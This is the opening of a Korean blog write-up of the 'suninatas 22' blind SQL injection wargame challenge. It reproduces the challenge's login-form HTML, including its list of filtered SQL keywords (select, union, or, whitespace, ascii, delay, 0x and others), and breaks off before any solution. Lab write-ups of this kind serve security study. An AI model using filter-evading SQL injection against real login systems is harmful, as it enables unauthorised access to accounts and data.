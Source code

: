 ```yaml
---
layout: post
title: 'suninatas 22번'
date: 2019-07-26
author: JSB
color: rgb(100,50,100)
cover: '/screenshot/suninatas/suninatas.png'
tags: sunintas webhacking
---
```

# suninats 22번

<img src="/screenshot/suninatas/web-9/suninatas-9-1.png">
오 드디어 Blind SQL Injection

소스코드는 이러하다.

<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div><div style="line-height:130%">2</div><div style="line-height:130%">3</div><div style="line-height:130%">4</div><div style="line-height:130%">5</div><div style="line-height:130%">6</div><div style="line-height:130%">7</div><div style="line-height:130%">8</div><div style="line-height:130%">9</div><div style="line-height:130%">10</div><div style="line-height:130%">11</div><div style="line-height:130%">12</div><div style="line-height:130%">13</div><div style="line-height:130%">14</div><div style="line-height:130%">15</div><div style="line-height:130%">16</div><div style="line-height:130%">17</div><div style="line-height:130%">18</div><div style="line-height:130%">19</div><div style="line-height:130%">20</div><div style="line-height:130%">21</div><div style="line-height:130%">22</div><div style="line-height:130%">23</div><div style="line-height:130%">24</div><div style="line-height:130%">25</div><div style="line-height:130%">26</div><div style="line-height:130%">27</div><div style="line-height:130%">28</div><div style="line-height:130%">29</div><div style="line-height:130%">30</div><div style="line-height:130%">31</div><div style="line-height:130%">32</div><div style="line-height:130%">33</div><div style="line-height:130%">34</div><div style="line-height:130%">35</div><div style="line-height:130%">36</div><div style="line-height:130%">37</div><div style="line-height:130%">38</div><div style="line-height:130%">39</div><div style="line-height:130%">40</div><div style="line-height:130%">41</div><div style="line-height:130%">42</div><div style="line-height:130%">43</div><div style="line-height:130%">44</div><div style="line-height:130%">45</div><div style="line-height:130%">46</div><div style="line-height:130%">47</div><div style="line-height:130%">48</div><div style="line-height:130%">49</div><div style="line-height:130%">50</div><div style="line-height:130%">51</div><div style="line-height:130%">52</div><div style="line-height:130%">53</div><div style="line-height:130%">54</div><div style="line-height:130%">55</div><div style="line-height:130%">56</div><div style="line-height:130%">57</div><div style="line-height:130%">58</div><div style="line-height:130%">59</div><div style="line-height:130%">60</div><div style="line-height:130%">61</div><div style="line-height:130%">62</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#010101">&lt;</span><span style="color:#066de2">!DOCTYPE</span>&nbsp;<span style="color:#0a9989">html</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#010101">&lt;</span><span style="color:#066de2">html</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#010101">&lt;</span><span style="color:#066de2">head</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">title</span><span style="color:#010101">&gt;</span>Game&nbsp;22<span style="color:#010101">&lt;</span><span style="color:#010101">/</span><span style="color:#066de2">title</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">meta</span>&nbsp;<span style="color:#0a9989">http-equiv</span>=<span style="color:#df5000">"Content-Type"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">content</span>=<span style="color:#df5000">"text/html;&nbsp;charset=utf-8"</span><span style="color:#0a9989"></span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">link</span>&nbsp;<span style="color:#0a9989">rel</span>=<span style="color:#df5000">"shortcut&nbsp;icon"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">href</span>=<span style="color:#df5000">"/img/game.ico"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">/</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#010101">&lt;</span><span style="color:#010101">/</span><span style="color:#066de2">head</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#010101">&lt;</span><span style="color:#066de2">body</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">form</span>&nbsp;<span style="color:#0a9989">method</span>=<span style="color:#df5000">"get"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">action</span>=<span style="color:#df5000">"./web22.asp"</span><span style="color:#0a9989"></span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">br</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">br</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">br</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">br</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">br</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">br</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">br</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">table</span>&nbsp;<span style="color:#0a9989">width</span>=<span style="color:#df5000">"400"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">cellpadding</span>=<span style="color:#df5000">"0"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">cellspacing</span>=<span style="color:#df5000">"0"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">align</span>=<span style="color:#df5000">"center"</span><span style="color:#0a9989"></span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">tr</span>&nbsp;<span style="color:#0a9989">height</span>=<span style="color:#df5000">"30"</span><span style="color:#0a9989"></span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">td</span>&nbsp;<span style="color:#0a9989">width</span>=<span style="color:#df5000">"200"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">class</span>=<span style="color:#df5000">"table_top"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">align</span>=<span style="color:#df5000">"center"</span><span style="color:#0a9989"></span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">input</span>&nbsp;<span style="color:#0a9989">type</span>=<span style="color:#df5000">"button"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">name</span>=<span style="color:#df5000">"main_btn"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">value</span>=<span style="color:#df5000">"main"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">style</span>=<span style="color:#df5000">"width:&nbsp;60"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">onclick</span>=<span style="color:#df5000">"location.href&nbsp;=&nbsp;'/'"</span><span style="color:#0a9989"></span><span style="color:#010101">&gt;</span><span style="color:#010101">&lt;</span><span style="color:#010101">/</span><span style="color:#066de2">td</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">td</span>&nbsp;<span style="color:#0a9989">width</span>=<span style="color:#df5000">"200"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">class</span>=<span style="color:#df5000">"table_top"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">align</span>=<span style="color:#df5000">"center"</span><span style="color:#0a9989"></span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">input</span>&nbsp;<span style="color:#0a9989">type</span>=<span style="color:#df5000">"button"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">name</span>=<span style="color:#df5000">"main_btn"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">value</span>=<span style="color:#df5000">"Back"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">style</span>=<span style="color:#df5000">"width:&nbsp;60"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">onclick</span>=<span style="color:#df5000">"history.back()"</span><span style="color:#0a9989"></span><span style="color:#010101">&gt;</span><span style="color:#010101">&lt;</span><span style="color:#010101">/</span><span style="color:#066de2">td</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#010101">/</span><span style="color:#066de2">tr</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">tr</span>&nbsp;<span style="color:#0a9989">height</span>=<span style="color:#df5000">"30"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">class</span>=<span style="color:#df5000">"table_main"</span><span style="color:#0a9989"></span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">td</span>&nbsp;<span style="color:#0a9989">width</span>=<span style="color:#df5000">"120"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">align</span>=<span style="color:#df5000">"center"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">bgcolor</span>=<span style="color:#df5000">"cccccc"</span><span style="color:#0a9989"></span><span style="color:#010101">&gt;</span><span style="color:#010101">&lt;</span><span style="color:#066de2">font</span>&nbsp;<span style="color:#0a9989">size</span>=<span style="color:#df5000">"2"</span><span style="color:#0a9989"></span><span style="color:#010101">&gt;</span><span style="color:#010101">&lt;</span><span style="color:#066de2">b</span><span style="color:#010101">&gt;</span>&amp;nbsp&amp;nbsp&amp;nbspid<span style="color:#010101">&lt;</span><span style="color:#010101">/</span><span style="color:#066de2">b</span><span style="color:#010101">&gt;</span><span style="color:#010101">&lt;</span><span style="color:#010101">/</span><span style="color:#066de2">font</span><span style="color:#010101">&gt;</span><span style="color:#010101">&lt;</span><span style="color:#010101">/</span><span style="color:#066de2">td</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">td</span>&nbsp;<span style="color:#0a9989">width</span>=<span style="color:#df5000">"280"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">align</span>=<span style="color:#df5000">"center"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">bgcolor</span>=<span style="color:#df5000">"cccccc"</span><span style="color:#0a9989"></span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">input</span>&nbsp;<span style="color:#0a9989">type</span>=<span style="color:#df5000">"text"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">name</span>=<span style="color:#df5000">"id"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">style</span>=<span style="color:#df5000">"width:&nbsp;230"</span><span style="color:#0a9989"></span><span style="color:#010101">&gt;</span><span style="color:#010101">&lt;</span><span style="color:#010101">/</span><span style="color:#066de2">td</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#010101">/</span><span style="color:#066de2">tr</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">tr</span>&nbsp;<span style="color:#0a9989">height</span>=<span style="color:#df5000">"30"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">class</span>=<span style="color:#df5000">"table_main"</span><span style="color:#0a9989"></span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">td</span>&nbsp;<span style="color:#0a9989">align</span>=<span style="color:#df5000">"center"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">bgcolor</span>=<span style="color:#df5000">"cccccc"</span><span style="color:#0a9989"></span><span style="color:#010101">&gt;</span><span style="color:#010101">&lt;</span><span style="color:#066de2">font</span>&nbsp;<span style="color:#0a9989">size</span>=<span style="color:#df5000">"2"</span><span style="color:#0a9989"></span><span style="color:#010101">&gt;</span><span style="color:#010101">&lt;</span><span style="color:#066de2">b</span><span style="color:#010101">&gt;</span>pw<span style="color:#010101">&lt;</span><span style="color:#010101">/</span><span style="color:#066de2">b</span><span style="color:#010101">&gt;</span><span style="color:#010101">&lt;</span><span style="color:#010101">/</span><span style="color:#066de2">font</span><span style="color:#010101">&gt;</span><span style="color:#010101">&lt;</span><span style="color:#010101">/</span><span style="color:#066de2">td</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">td</span>&nbsp;<span style="color:#0a9989">align</span>=<span style="color:#df5000">"center"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">bgcolor</span>=<span style="color:#df5000">"cccccc"</span><span style="color:#0a9989"></span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">input</span>&nbsp;<span style="color:#0a9989">type</span>=<span style="color:#df5000">"password"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">name</span>=<span style="color:#df5000">"pw"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">style</span>=<span style="color:#df5000">"width:&nbsp;230"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">maxlength</span>=<span style="color:#df5000">"15"</span><span style="color:#0a9989"></span><span style="color:#010101">&gt;</span><span style="color:#010101">&lt;</span><span style="color:#010101">/</span><span style="color:#066de2">td</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#010101">/</span><span style="color:#066de2">tr</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">tr</span>&nbsp;<span style="color:#0a9989">height</span>=<span style="color:#df5000">"30"</span><span style="color:#0a9989"></span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">td</span>&nbsp;<span style="color:#0a9989">colspan</span>=<span style="color:#df5000">"2"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">align</span>=<span style="color:#df5000">"center"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">class</span>=<span style="color:#df5000">"table_top"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">bgcolor</span>=<span style="color:#df5000">"cccccc"</span><span style="color:#0a9989"></span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">input</span>&nbsp;<span style="color:#0a9989">type</span>=<span style="color:#df5000">"button"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">name</span>=<span style="color:#df5000">"btn"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">value</span>=<span style="color:#df5000">"Login"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">onclick</span>=<span style="color:#df5000">"submit()"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">size</span>=<span style="color:#df5000">"20"</span><span style="color:#0a9989"></span><span style="color:#010101">&gt;</span><span style="color:#010101">&lt;</span><span style="color:#010101">/</span><span style="color:#066de2">td</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#010101">/</span><span style="color:#066de2">tr</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">tr</span>&nbsp;<span style="color:#0a9989">class</span>=<span style="color:#df5000">"table_main"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">height</span>=<span style="color:#df5000">"30"</span><span style="color:#0a9989"></span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">td</span>&nbsp;<span style="color:#0a9989">colspan</span>=<span style="color:#df5000">"2"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">align</span>=<span style="color:#df5000">"center"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">bgcolor</span>=<span style="color:#df5000">"cccccc"</span><span style="color:#0a9989"></span><span style="color:#010101">&gt;</span>Blind&nbsp;Sql&nbsp;Injection<span style="color:#010101">&lt;</span><span style="color:#010101">/</span><span style="color:#066de2">td</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#010101">/</span><span style="color:#066de2">tr</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">tr</span>&nbsp;<span style="color:#0a9989">height</span>=<span style="color:#df5000">"30"</span><span style="color:#0a9989"></span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">td</span>&nbsp;<span style="color:#0a9989">colspan</span>=<span style="color:#df5000">"2"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">align</span>=<span style="color:#df5000">"center"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">class</span>=<span style="color:#df5000">"table_top"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">bgcolor</span>=<span style="color:#df5000">"cccccc"</span><span style="color:#0a9989"></span><span style="color:#010101">&gt;</span>Filtering&nbsp;Keywords<span style="color:#010101">&lt;</span><span style="color:#010101">/</span><span style="color:#066de2">td</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#010101">/</span><span style="color:#066de2">tr</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">tr</span>&nbsp;<span style="color:#0a9989">class</span>=<span style="color:#df5000">"table_main"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">height</span>=<span style="color:#df5000">"30"</span><span style="color:#0a9989"></span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">td</span>&nbsp;<span style="color:#0a9989">colspan</span>=<span style="color:#df5000">"2"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">align</span>=<span style="color:#df5000">"center"</span><span style="color:#0a9989"></span>&nbsp;<span style="color:#0a9989">bgcolor</span>=<span style="color:#df5000">"cccccc"</span><span style="color:#0a9989"></span><span style="color:#010101">&gt;</span>select&nbsp;/&nbsp;Union&nbsp;/&nbsp;or&nbsp;/&nbsp;white&nbsp;space&nbsp;/&nbsp;by&nbsp;/&nbsp;having</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#066de2">br</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;from&nbsp;/&nbsp;char&nbsp;/&nbsp;ascii&nbsp;/&nbsp;left&nbsp;/&nbsp;right&nbsp;/&nbsp;delay&nbsp;/&nbsp;0x&nbsp;..........</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#010101">/</span><span style="color:#066de2">td</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#010101">/</span><span style="color:#066de2">tr</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#010101">/</span><span style="color:#066de2">table</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; 